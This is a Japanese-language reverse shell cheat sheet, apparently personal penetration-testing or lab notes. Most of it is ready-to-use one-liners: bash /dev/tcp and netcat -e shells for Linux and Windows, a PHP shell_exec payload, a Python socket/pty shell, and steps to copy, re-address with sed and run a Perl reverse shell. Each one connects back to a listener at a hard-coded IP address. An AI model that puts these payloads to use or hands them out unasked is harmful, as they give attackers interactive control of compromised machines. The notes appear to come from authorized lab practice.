


# Reverse Shell

## ncリバースシェル

```
bash -i >& /dev/tcp/192.168.11.146/4444 0>&1
```

```
bash -c 'bash -i >& /dev/tcp/10.10.16.2/4444 0>&1'
```

```
nc -nv 10.10.14.30 4444 -e /bin/sh
nc -nv 10.10.14.30 4444 -e cmd.exe
```


## phpリバースシェル

https://github.com/ivan-sincek/php-reverse-shell

↑windowsとlinuxどちらにも対応していてよい

#### 上記PHPのリバースシェルがエラーになる場合

利用できる関数が制限されている場合がある。phpinfo()関数を呼び出すことで確認が可能





そのような場合簡易版のPHPもリバースシェルとしてよく使える

#### shellコマンドでリバースシェルを張る場合

```php
<?php
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.167/1234 0>&1'");
?>
```


## pythonリバースシェル

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

```bash
/usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.167",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```


## perl

* 攻撃対象ホストでperlがあることを確認

  ```
  which perl
  whereis perl
  ```

* `/usr/share`からリバースシェルをコピーする

  ```bash
  cp /usr/share/webshells/perl/perl-reverse-shell.pl alpha-shell.pl
  ```

* ipとportを書き換える

  ```bash
  sed -i 's/my $ip = .*;/my $ip = "192.168.119.167";/; s/my $port = .*;/my $port = 444;/' alpha-shell.pl
  ```

* 実行する

  ```
  /usr/bin/perl /tmp/alpha-shell.pl
  ```

  
